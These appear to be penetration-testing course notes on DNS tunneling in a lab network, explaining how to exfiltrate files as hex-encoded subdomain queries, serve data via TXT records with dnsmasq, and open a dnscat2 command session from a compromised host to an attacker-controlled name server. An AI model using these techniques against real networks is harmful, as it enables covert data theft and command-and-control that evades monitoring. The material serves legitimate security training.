 					-In this case, we've received a DNS A record request for exfiltrated-data.feline.corp on FELINEAUTHORITY. This happened because MULTISERVER03 determined the authoritative name server for the **feline.corp** zone. All requests for _any_ subdomain of **feline.corp** will be forwarded to FELINEAUTHORITY. We didn't tell Dnsmasq on FELINEAUTHORITY what to do with requests for **exfiltrated-data.feline.corp**, so Dnsmasq just returned an _NXDomain__ response. We can see this flow in the following diagram

![[Pasted image 20240128200025.png]]

- Possible ways to exfiltrate data through DNS
	- Convert a binary file into a long _hex_ string representation, split this string into a series of smaller chunks, then send each chunk in a DNS request for **[hex-string-chunk].feline.corp**.
	- On the server side, we could log all the DNS requests and convert them from a series of hex strings back to a full binary
- Possible ways to infiltrate data through DNS
	- One of these is the _TXT record_. The TXT record is designed to be general-purpose, and contains "arbitrary string information"
		- Example:
			- cat dnsmasq_txt.conf
			- Adding to config file:
				- ``` #Define the zone
					auth-zone=feline.corp
					auth-server=feline.corp
					 #TXT record
					txt-record=www.feline.corp,here's something useful!
					txt-record=www.feline.corp,here's something else less useful.```
			- Startup dnsmasq
				- ```sudo dnsmasq -C dnsmasq_txt.conf -d```
			- Test new DNS TXT record
				- ```nslookup -type=txt www.feline.corp```
	- If we wanted to infiltrate binary data, we could serve it as a series of _Base64_ or _ASCII hex encoded_ TXT records, and convert that back into binary on the internal server

### DNS Tunneling with dnscat2

- *dnscat2*
	- xfiltrate data with DNS subdomain queries and infiltrate data with TXT (and other) records.
	- A dnscat2 server runs on an authoritative name server for a particular domain, and clients (which are configured to make queries to that domain) are run on compromised machines
	- Example:
		- inspect traffic from FELINEAUTHORITY
			- ```sudo tcpdump -i ens192 udp port 53```
		- run **dnscat2-server**, passing the **feline.corp** domain as the only argument.
			- ```dnscat2-server feline.corp```
		- Now that our server is set up, we'll move to PGDATABASE01 to run the **dnscat2** **client** binary
			- ```cd dnscat/```
			- ```./dnscat feline.corp```
		- We can check for connections back on our dnscat2 server.
			- ```dnscat2> New window created: 1```
		- Our session is connected! DNS is working exactly as expected. Requests from PGDATABASE01 are being resolved by MULTISERVER03, and end up on FELINEAUTHORITY.
				- `When run without a pre-shared _--secret_ flag at each end, dnscat2 will print an _authentication string_. This is used to verify the connection integrity after the encryption has been negotiated. Every time a connection is made, the authentication string will change.`
		- We can use our tcpdump process to monitor the DNS requests to **feline.corp**:
		- Now we'll start interacting with our session from the dnscat2 server.
			- List active windows
				- `windows`
			- Interact with Command Window
				- `window -i 1`
			- List all commands
				- `?`
				- `--help`